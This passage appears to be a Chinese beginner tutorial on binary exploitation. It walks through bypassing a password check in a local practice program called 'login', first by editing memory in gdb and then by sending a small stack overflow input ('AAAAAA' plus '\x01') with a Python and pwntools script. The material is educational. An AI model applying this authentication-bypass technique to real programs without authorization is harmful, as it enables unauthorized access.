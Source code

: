 这里将ebp寄存器里的值减去了0xc转换成10进制就是12和0做了对比，我们可以看一下这个地址的值

![在这里插入图片描述](https://img-blog.csdnimg.cn/8951ecc55df444b19f3ce2e6bf758672.png)

```
x $ebp - 0xc
```
都为0，0和0对比是对的，之后就会执行跳转操作，跳到密码错误的地方

![在这里插入图片描述](https://img-blog.csdnimg.cn/a6a2157daa4d4d9fa83dfe0eaccdface.png)


我们可以修改这里的值，使程序不进行跳转操作

```
set *0xffffd39c = 1
```

成功修改了这个地址的值

![在这里插入图片描述](https://img-blog.csdnimg.cn/80ac73d8b37f4012b84f6f2805b510e2.png)

然后一直输入n，next的简写，可以看到，我们没有执行跳转操作，即使输入了错误的密码，也能成功登录

![在这里插入图片描述](https://img-blog.csdnimg.cn/eebcfa4b1f4840398d805ec26cc1b9a1.png)

输入r重新运行程序，然后输入7个A字符

![在这里插入图片描述](https://img-blog.csdnimg.cn/e05f05a53ace4663b99e7239545811d2.png)

查看对比的值
```
x $ebp - 0xc
```

可以看到这里变成了0x41，转换成十进制为大写的A

![在这里插入图片描述](https://img-blog.csdnimg.cn/85cf352136ca4963b1311fc81e363cfc.png)

现在我们写一个脚本

```
z = "AAAAAA"
print(z + "\x01")
```
然后保存，用python3运行他
```
python3 exp.py | ./login
```
可以看到，现在值已经变成1了

![在这里插入图片描述](https://img-blog.csdnimg.cn/e56f5cf0831c4e6096e4ed3cf8ff4e7a.png)
# 第一个PwnTools脚本
```
from pwn import *   //导入pwntools模块

io = process('./login')   //运行程序

io.sendlineafter(b':', b'AAAAAA'+b"\x01")   //在程序输出"："后发送指定字符

print(io.recvall().decode())   //接收输出并且解码
```
然后运行这个脚本
```
python3 exploit.py
```
